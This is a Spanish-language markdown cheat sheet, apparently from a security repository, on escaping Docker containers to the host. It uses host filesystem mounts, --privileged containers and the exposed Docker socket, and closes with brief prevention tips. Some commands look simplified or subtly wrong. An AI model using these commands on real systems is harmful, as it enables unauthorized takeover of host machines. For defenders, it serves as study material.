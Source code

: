 ### **Privilege_Escalation/Docker_privilege_escalation_in_docker.md**

# Privilege Escalation in Docker

## Descripción

`Privilege Escalation in Docker` se refiere a técnicas y scripts utilizados para aumentar los privilegios dentro de contenedores Docker, permitiendo a un atacante obtener acceso al sistema host o escalar sus privilegios dentro del contenedor.

## Uso

Se ejecutan dentro de un contenedor Docker para explotar configuraciones vulnerables y escalar privilegios.

### Scripts comunes

- **Montar el sistema de archivos del host:**

  ```bash
  #!/bin/bash
  # Script para montar el sistema de archivos del host dentro del contenedor
  mount -o bind / /mnt/host
  ```

- **Ejecutar un shell privilegiado en el host:**

  ```bash
  #!/bin/bash
  # Script para iniciar un shell con privilegios en el host
  docker run --privileged -it ubuntu bash
  ```

- **Explotar el socket Docker para acceso al host:**

  ```bash
  #!/bin/bash
  # Script para acceder al socket Docker y controlar el host
  docker run -v /var/run/docker.sock:/var/run/docker.sock -it docker sh
  ```

## Ejemplos

- **Escalar privilegios mediante el montaje del sistema de archivos:**

  ```bash
  docker run -v /:/mnt/host -it ubuntu bash
  cd /mnt/host
  # Ahora con acceso al sistema de archivos del host
  ```

- **Iniciar un contenedor con privilegios elevados:**

  ```bash
  docker run --privileged -it ubuntu bash
  # Acceso completo al host
  ```

- **Controlar el host a través del socket Docker:**

  ```bash
  docker run -v /var/run/docker.sock:/var/run/docker.sock -it docker sh
  docker exec -it host_container_id bash
  ```

## Prevención

- **No usar la opción `--privileged`:** Evitar otorgar privilegios elevados a contenedores.
- **Restringir el acceso al socket Docker:** Limitar quién puede acceder al socket Docker para prevenir abusos.
- **Usar perfiles de seguridad:** Implementar AppArmor o SELinux para restringir las acciones de los contenedores.
